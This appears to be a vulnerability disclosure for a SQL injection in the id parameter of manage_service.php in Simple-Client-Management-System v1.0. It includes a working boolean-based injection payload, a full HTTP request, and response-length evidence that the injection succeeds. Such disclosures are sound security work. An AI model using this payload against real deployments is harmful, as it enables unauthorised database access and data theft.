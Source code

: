 # Simple-Client-Management-System v1.0 by oretnom23 has SQL injection

**Author：** k0xx

vendors: https://www.sourcecodester.com/php/15027/simple-client-management-system-php-source-code.html

Vulnerability File: /cms/admin/maintenance/manage_service.php?id=

Vulnerability location: /cms/admin/maintenance/manage_service.php?id=,id

[+] Payload: /cms/admin/maintenance/manage_service.php?id=1%27%20and%20length(database())%20=6%20--+  // Leak place ---> id

Current database name: cms_db,length is 6

```sql
GET /cms/admin/maintenance/manage_service.php?id=1%27%20and%20length(database())%20=6%20--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=3m0l1n81dvmlo0a3h9oo72q1gp
Connection: close
// Leak place ---> id
```


When length (database ()) = 6, Content-Length: 2397
![image](https://user-images.githubusercontent.com/54017627/164883725-3ea83b5f-b44b-45d9-812a-4436a3b7c2df.png)

![image](https://user-images.githubusercontent.com/54017627/164883744-b67f56e9-0f9c-4642-af05-3721647892ec.png)


When length (database ()) = 7, Content-Length: 2355
![image](https://user-images.githubusercontent.com/54017627/164883735-85f30c79-c2e9-41cc-b8aa-c600071cf083.png)

![image](https://user-images.githubusercontent.com/54017627/164883749-30538708-b0ef-45ec-abd0-eae31bb9b68e.png)
